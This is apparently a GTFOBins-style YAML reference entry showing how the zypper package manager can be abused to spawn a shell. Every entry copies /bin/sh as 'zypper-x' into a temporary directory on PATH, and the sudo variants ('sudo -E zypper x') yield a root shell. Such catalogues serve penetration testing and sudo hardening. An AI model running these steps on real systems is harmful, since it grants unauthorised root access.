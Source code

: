 ```yaml
---
functions:
  shell:
    - description: This requires `/bin/sh` to be copied to `/usr/lib/zypper/commands/zypper-x` and this usually requires elevated privileges.
      code: |
        zypper x
    - code: |
        TF=$(mktemp -d)
        cp /bin/sh $TF/zypper-x
        export PATH=$TF:$PATH
        zypper x
  sudo:
    - description: This requires `/bin/sh` to be copied to `/usr/lib/zypper/commands/zypper-x` and this usually requires elevated privileges.
      code: |
        sudo zypper x
    - code: |
        TF=$(mktemp -d)
        cp /bin/sh $TF/zypper-x
        export PATH=$TF:$PATH
        sudo -E zypper x
---
```

